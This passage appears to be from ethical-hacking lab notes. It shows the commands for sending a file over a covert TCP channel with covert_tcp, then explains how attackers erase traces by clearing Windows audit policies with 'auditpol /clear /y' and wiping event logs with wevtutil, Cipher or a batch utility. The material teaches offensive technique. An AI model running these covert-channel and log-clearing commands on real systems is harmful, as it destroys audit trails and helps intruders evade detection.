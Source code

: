 Copy covert_tcp.c in this folder:

	> cc -o covert_tcp covert_tcp.c
	> ./covert_tcp -dest 10.10.1.9 -source 10.10.1.13 -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt
	
On sender:

	> ./covert_tcp -dest 10.10.1.9 -source 10.10.1.13 -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/Send/message.txt
	

## Clear Logs to Hide the Evidence of Compromise

In the previous labs, you have seen different steps that attackers take during the system hacking lifecycle. They start with gaining access to the system, escalating privileges, executing malicious applications, and hiding files. However, to maintain their access to the target system longer and avoid detection, they need to clear any traces of their intrusion. It is also essential to avoid a traceback and possible prosecution for hacking.

A professional ethical hacker and penetration tester’s last step in system hacking is to remove any resultant tracks or traces of intrusion on the target system. One of the primary techniques to achieve this goal is to manipulate, disable,or erase the system logs. Once you have access to the target system, you can use inbuilt system utilities to disable or tamper with the logging and auditing mechanisms in the target system.

This task will demonstrate how the system logs can be cleared, manipulated, disabled, or erased using various methods.

### View, Enable, and Clear Audit Policies using Auditpol

On Windows 11, start a cmd in Admin mode:

	> auditpol /get /category:*		# view all the audit policies
	
Enable the audit policies:

	> auditpol /set /category:"system", "account logon", /success:enable /failure:enable

Clear the audit policies:

	> auditpol /clear /y
Note: For demonstration purposes, we are clearing logs on the same machine. In real-time, the attacker performs this process after gaining access to the target system to clear traces of their malicious activities from the target system.


### Clear Windows Machine Logs using Various Utilities

There are various Windows utilities that can be used to clear system logs such as Clear_Event_Viewer_Logs.bat, wevtutil, and Cipher.

Note: Clear_Event_Viewer_Logs.bat is a utility that can be used to wipe out the logs of the target system. This utility can be run through command prompt or PowerShell, and it uses a BAT file to delete security, system, and application logs on the target system. You can use this utility to wipe out logs as one method of covering your tracks on the target system.

